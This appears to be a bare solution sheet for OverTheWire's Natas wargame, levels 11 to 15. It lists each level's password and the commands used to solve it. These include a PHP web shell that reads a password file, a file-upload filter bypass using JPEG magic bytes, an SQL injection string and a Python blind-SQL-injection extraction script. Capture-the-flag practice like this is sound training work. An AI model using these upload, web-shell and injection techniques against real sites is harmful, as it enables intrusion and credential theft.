 ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK

    curl -isu natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK natas11.natas.labs.overthewire.org --cookie "data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK"

12 EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

    <?  
        passthru('cat /etc/natas_webpass/natas13');  
    ?> 

    curl -isu natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 -F filename=test2.php -F uploadedfile=@test2.php http://natas12.natas.labs.overthewire.org

13 jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

    echo `printf  "\xff\xd8\xff\xe0"``cat ./test2.php` > test3.php


    curl -isu natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY -F filename=test3.php -F uploadedfile=@test3.php http://natas13.natas.labs.overthewire.org


14 Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

    1" or "" like "

15 AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

```python
    #!/usr/bin/env python  

    import requests  
    url = 'http://natas15.natas.labs.overthewire.org/index.php'  
    username= 'natas15'  
    password= 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'  
    key = ""  
  
    for pos in range(34):  
        low = 32  
        high = 126  
        mid = (high+low)>>1  
        
        while mid<high:  
            #print low,mid,high  
            payload= "natas16\" and %d < ascii(mid(password,%d,1)) and \"\" like \"" %  (mid, pos)  
            req = requests.post(url, auth = requests.auth.HTTPBasicAuth(username,password),data={"username":payload})  
            #print req.text  
            if req.text.find("doesn't exist")==-1:  
                low = mid+1  
            else:  
                high=mid   
            mid = (high+low)>>1  
    
        key+=chr(mid)  
        print(key)  
    print(key)

```
